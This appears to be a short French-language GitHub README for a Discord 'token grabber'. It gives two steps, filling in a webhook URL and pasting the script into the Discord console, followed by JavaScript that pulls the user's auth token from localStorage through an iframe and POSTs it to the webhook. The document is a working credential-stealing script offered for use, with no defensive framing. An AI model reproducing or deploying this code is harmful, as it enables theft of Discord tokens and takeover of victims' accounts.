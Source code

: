 # Token-Grabber-Js
Script Token Grabber en NodeJS

1). Complete le script avec un webhook

2). Entrer le script dans la console de discord

```
location.reload();
var webhook = "";
var token = document.body.appendChild(document.createElement `iframe`).contentWindow.window.localStorage.token;
var request = new XMLHttpRequest();
request.open("POST", webhook);
request.setRequestHeader('content-type', 'application/json');
request.send(JSON.stringify({"content": token}));
```

